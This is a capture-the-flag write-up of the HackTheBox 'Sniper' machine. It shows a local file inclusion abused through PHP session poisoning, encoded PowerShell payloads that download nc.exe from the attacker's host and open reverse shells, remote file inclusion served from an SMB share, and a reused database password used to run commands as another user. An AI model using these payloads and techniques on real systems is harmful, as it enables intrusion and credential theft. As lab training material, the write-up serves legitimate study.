










- Machine : https://app.hackthebox.com/machines/Sniper
- Reference : https://0xdf.gitlab.io/2020/03/28/htb-sniper.html
- Solved : 2025.3.22. (Sat) (Takes 1day)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.151
Performing quick port scan on 10.10.10.151...
Found open ports: 80,135,139,445,49667
Performing detailed scan on 10.10.10.151...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-21 11:02 MDT
Nmap scan report for 10.10.10.151
Host is up (0.30s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Sniper Co.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2025-03-22T00:03:38
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.56 seconds
```

### http(80)



I found several pages using `gobuster`.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ gobuster dir -u http://10.10.10.151 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.151
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2635]
/images               (Status: 301) [Size: 150] [--> http://10.10.10.151/images/]
/blog                 (Status: 301) [Size: 148] [--> http://10.10.10.151/blog/]
/user                 (Status: 301) [Size: 148] [--> http://10.10.10.151/user/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.151/Images/]
/css                  (Status: 301) [Size: 147] [--> http://10.10.10.151/css/]
/Index.php            (Status: 200) [Size: 2635]
/js                   (Status: 301) [Size: 146] [--> http://10.10.10.151/js/]
/Blog                 (Status: 301) [Size: 148] [--> http://10.10.10.151/Blog/]  
```



I don't have credentials and can sign-up, so let's try making a new account.

However, there's nothing interesting after sign-in.



`/blog` page looks like a blog page which contains multi language.



It has a tab to toggle languages.



Given that it takes file name like `blog-es.php` in `?lang=` parameter, it may have **Local File Inclusion** vulnerability.


# Shell as `iusr`

### Method #1 Local File Inclusion

I tried relative path like `index.php`, `../index.php` and so on, but it didn't work.
Instead, I tried `\windows\win.ini` and it worked.



I googled and found out that PHP session files are stored in `%temp%` directory. 
(`\windows\temp\sess_{PHPSESSID}`).
I need to put my actual `PHPSESSID` to fetch my cookie information.

First, I checked my `PHPSESSID`.



My current `PHPSESSID` is `6ucskobm46jqc6mecmiekhfumb`.

Then, I tried to include the session file with the following URL :
`http://10.10.10.151/blog/?lang=\windows\temp\sess_6ucskobm46jqc6mecmiekhfumb`



Now let's include `<?php echo "PHP Injection!" ?>` by creating a new user with the php code as its username.



But it doesn't seem to allow sign-in with the name.



Let's try different payload.

- Trial #1
	Payload : `<?php system($_REQUEST('cmd')); ?>`
	Result : Username/password is incorrect.
- Trial #2
	payload : `<?php echo `whoami`; ?>`
	result : Username/password is incorrect.
- Trial #3
	payload :  ```<?=`powershell whoami`?>```
	result : Success

With the last trial payload, I could run `whoami` command on the system.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ curl -s "http://10.10.10.151/blog/?lang=\windows\temp\sess_6ucskobm46jqc6mecmiekhfumb" | tail


</body>

</html>
username|s:24:"nt authority\iusr
";</body>
</html>
```

The command is run by `nt authority\iusr`.

Since many special characters seem to be blacklisted, let's try using encoded payload.
Let's encode `whoami` command as follows;

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ echo whoami | iconv -t utf-16le | base64
dwBoAG8AYQBtAGkACgA=
```

Then, I can create a new account with the encoded payload as follows;

```
<?=`powershell /enc dwBoAG8AYQBtAGkACgA=`?>
```

Then, it works again this time.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ curl -s "http://10.10.10.151/blog/?lang=\windows\temp\sess_6ucskobm46jqc6mecmiekhfumb" | tail

</body>

</html>
username|s:43:"nt authority\iusr
";</body>
</html>
```

Let's use reverse shell payload this time.

```
<?=`powershell /enc JGNsaWVudCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5Tb2NrZXRzLlRDUENsaWVudCgiMTAuMTAuMTQuMjYiLDkwMDApOyRzdHJlYW0gPSAkY2xpZW50LkdldFN0cmVhbSgpO1tieXRlW11dJGJ5dGVzID0gMC4uNjU1MzV8JSV7MH07d2hpbGUoKCRpID0gJHN0cmVhbS5SZWFkKCRieXRlcywgMCwgJGJ5dGVzLkxlbmd0aCkpIC1uZSAwKXs7JGRhdGEgPSAoTmV3LU9iamVjdCAtVHlwZU5hbWUgU3lzdGVtLlRleHQuQVNDSUlFbmNvZGluZykuR2V0U3RyaW5nKCRieXRlcywwLCAkaSk7JHNlbmRiYWNrID0gKGlleCAkZGF0YSAyPiYxIHwgT3V0LVN0cmluZyApOyRzZW5kYmFjazIgPSAkc2VuZGJhY2sgKyAiUFMgIiArIChwd2QpLlBhdGggKyAiPiAiOyRzZW5kYnl0ZSA9IChbdGV4dC5lbmNvZGluZ106OkFTQ0lJKS5HZXRCeXRlcygkc2VuZGJhY2syKTskc3RyZWFtLldyaXRlKCRzZW5kYnl0ZSwwLCRzZW5kYnl0ZS5MZW5ndGgpOyRzdHJlYW0uRmx1c2goKX07JGNsaWVudC5DbG9zZSgp` ?>
```

I tried it, but it seemed not working due to the length of the username.
Let's try different methods.

First let's upload `nc.exe`.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ echo 'wget http://10.10.14.26:8000/nc.exe -o C:\\windows\\temp\\nc.exe' | iconv -t utf-16le | base64 -w 0 
dwBnAGUAdAAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgA2ADoAOAAwADAAMAAvAG4AYwAuAGUAeABlACAALQBvACAAQwA6AFwAdwBpAG4AZABvAHcAcwBcAHQAZQBtAHAAXABuAGMALgBlAHgAZQAKAA==
```

Prepare a payload.

```
<?=`powershell /enc dwBnAGUAdAAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgA2ADoAOAAwADAAMAAvAG4AYwAuAGUAeABlACAALQBvACAAQwA6AFwAdwBpAG4AZABvAHcAcwBcAHQAZQBtAHAAXABuAGMALgBlAHgAZQAKAA==` ?>
```

Trigger the PHP code execution by calling the Session file.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ curl -s "http://10.10.10.151/blog/?lang=\windows\temp\sess_6ucskobm46jqc6mecmiekhfumb" | tail

</body>

</html>
username|s:192:"";</body>
</html>
```

The target soon downloads `nc.exe` file.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.151 - - [22/Mar/2025 00:07:51] "GET /nc.exe HTTP/1.1" 200 -
```

Now, let's use the uploaded `nc.exe` to open a reverse shell.
Let's prepare encoded payload.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ echo 'C:\\windows\\temp\\nc.exe 10.10.14.26 9000 -e cmd.exe' | iconv -t utf-16le | base64 -w 0
QwA6AFwAdwBpAG4AZABvAHcAcwBcAHQAZQBtAHAAXABuAGMALgBlAHgAZQAgADEAMAAuADEAMAAuADEANAAuADIANgAgADkAMAAwADAAIAAtAGUAIABjAG0AZAAuAGUAeABlAAoA
```

Using the following, let's sign-up again.

```
<?=`powershell /enc QwA6AFwAdwBpAG4AZABvAHcAcwBcAHQAZQBtAHAAXABuAGMALgBlAHgAZQAgADEAMAAuADEAMAAuADEANAAuADIANgAgADkAMAAwADAAIAAtAGUAIABjAG0AZAAuAGUAeABlAAoA` ?>
```

Prepare a listener to open a shell.
Then, after sign-in, by fetching the Session file again, I can open a shell.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ curl -s "http://10.10.10.151/blog/?lang=\windows\temp\sess_6ucskobm46jqc6mecmiekhfumb" | tail      
```

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ nc -nlvp 9000        
listening on [any] 9000 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.151] 49748
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
nt authority\iusr
```

I got `nt authority\iusr`'s shell!

### Method #2 RFI & SMB

Another approach is using SMB and Remote File Inclusion vulnerability to fetch php file from kali.

Let's prepare a php file first.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ cat whoami.php 
<?php system('whoami'); ?>
```

Then, open a smb share using `impacket-smbserver`.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ impacket-smbserver -smb2support share .
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.151,49750)
[*] AUTHENTICATE_MESSAGE (\,SNIPER)
[*] User SNIPER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:SHARE)
[*] Disconnecting Share(1:SHARE)
[*] Closing down connection (10.10.10.151,49750)
[*] Remaining connections []
```

Then, when I fetch the Session file, the php code returns `whoami` result.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ curl -s 'http://10.10.10.151/blog/?lang=\\10.10.14.26\share\whoami.php' | tail

</body>

</html>
nt authority\iusr
</body>
</html>
```

Now let's prepare payload for reverse shell`.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ cat open_rshell_9000.php                         
<?php system('\\\\10.10.14.26\\share\\nc.exe 10.10.14.26 9000 -e cmd.exe'); ?>
```

Another one required is to open a reverse shell.

Let's open a SMB share again.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ impacket-smbserver -smb2support share .                         
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

I included the php file.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ curl -s 'http://10.10.10.151/blog/?lang=\\10.10.14.26\share\open_rshell_9000.php' | tail
```

Then I can open a shell again.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ nc -nlvp 9000                        
listening on [any] 9000 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.151] 49769
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
nt authority\iusr
```


# Shell as `Chris`

### Enumeration

I first checked `registration.php`'s blacklist filter.

```bash
C:\inetpub\wwwroot\user>type registration.php
type registration.php
<!DOCTYPE html>
<html>
<meta charset="utf-8">

</head>
<body>
<?php
require('db.php');
// If form submitted, insert values into the database.
if (isset($_REQUEST['username'])){
        // removes backslashes
        $username = stripslashes($_REQUEST['username']);
        $username = str_replace('-', '', $username);
        $username = str_replace('$', '', $username);
        $username = str_replace('[', '', $username);
        $username = str_replace('(', '', $username);
        $username = str_replace('_', '', $username);
        $username = str_replace('.', '', $username);
        $username = str_replace(';', '', $username);
        $username = str_replace('&', '', $username);
        $username = str_replace('"', '', $username);
```

Most special characters are being filtered. That was why many php codes were blocked.

Also, I found one db credential.

```bash
C:\inetpub\wwwroot\user>type auth.php
type auth.php
<?php
session_start();
if(!isset($_SESSION["username"])){
header("Location: login.php");
exit(); }
?>

C:\inetpub\wwwroot\user>type db.php
type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Then I found one non-admin user `chris`.

```bash
C:\inetpub\wwwroot\user>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Chris                    DefaultAccount           
Guest                    WDAGUtilityAccount       
The command completed with one or more errors.
```

Assuming that the credential for `Chris` is reused
Let's set `$Cred` as `Chris`, and run commands.

```powershell
PS C:\> hostname
Sniper
PS C:\> $user = "Sniper\Chris"
PS C:\> $pass = "36mEAhz/B8xQ~2VM"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
sniper\chris
```

OR,

```powershell
PS C:\> $password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";

PS C:\> $credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;

PS C:\> Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;

sniper\chris
```

Using this, let's open a reverse shell.

```powershell
PS C:\> Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget http://10.10.14.26:8000/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;

PS C:\> Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e cmd.exe 10.10.14.26 9001 } -credential $credential;
```

Listener soon captures a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/sniper]
└─$ nc -nlvp 9001               
listening on [any] 9001 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.151] 49709
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
whoami
sniper\chris
```

I got `chris`'s shell.


# Shell as `administrator`

### Enumeration

```bash
C:\Docs>type note.txt
type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```

It's a message from CEO asking to leave a document file on `C:\Docs` directory.

```bash
C:\Users\Chris\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Downloads

04/11/2019  08:36 AM    <DIR>          .
04/11/2019  08:36 AM    <DIR>          ..
04/11/2019  08:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)   2,408,456,192 bytes free
```

There's a file on `C:\Users\Chris\Downloads` of which file type is `chm`.

**Microsoft Compiled HTML Help** (**CHM**) is a [Microsoft](https://en.wikipedia.org/wiki/Microsoft "Microsoft") proprietary [online help](https://en.wikipedia.org/wiki/Online_help "Online help") format, consisting of a collection of [HTML](https://en.wikipedia.org/wiki/HTML "HTML") pages, an index and other navigation tools.

It seems that I need to create a malicious CHM file to run commands.

Nishang has useful script for that purpose : https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Client/Out-CHM.ps1

> It requires Windows VM.
> Let's visit it later...